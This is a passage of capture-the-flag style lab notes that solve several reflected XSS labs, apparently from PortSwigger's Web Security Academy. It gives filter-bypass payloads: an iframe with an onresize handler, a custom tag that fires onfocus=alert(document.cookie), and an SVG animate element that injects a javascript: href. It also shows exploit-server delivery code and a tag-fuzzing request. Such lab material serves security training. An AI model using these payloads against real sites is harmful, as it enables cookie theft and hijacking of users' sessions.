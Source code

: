 **Exploit Server ->**

```
Body: 
    <iframe src="https://ac991f1b1edf2073c08b13cd00140027.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

Deliver exploit to victim -> Solved.

### Lab: Reflected XSS into HTML context with all tags blocked except custom ones

This lab blocks all HTML tags except custom ones.

```
<xss id=x onfocus=alert(document.cookie) tabindex=1>#x
```

**Exploit Server ->**

```
Body: 
    <iframe src="https://ac9e1fe91fb69acfc08b2cf400330037.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x" onload=this.style.width='100px'>

OR

    <script>
    location = 'https://ac9e1fe91fb69acfc08b2cf400330037.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
    </script>
```

### Lab: Reflected XSS with event handlers and href attributes blocked

This lab contains a reflected XSS vulnerability with some whitelisted tags, but all events and anchor href attributes are blocked.

**Sniper attack with xss tags list ->**&#x20;

`GET /?search=<§§> HTTP/1.1`

_a, animate, image, svg, title_

```
<svg>
	<a>
		<animate attributeName=href values=javascript:alert(1) />
		<text x=20 y=20>Click me</text>
	</a>
	
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```

### Lab: Reflected XSS with some SVG markup allowed
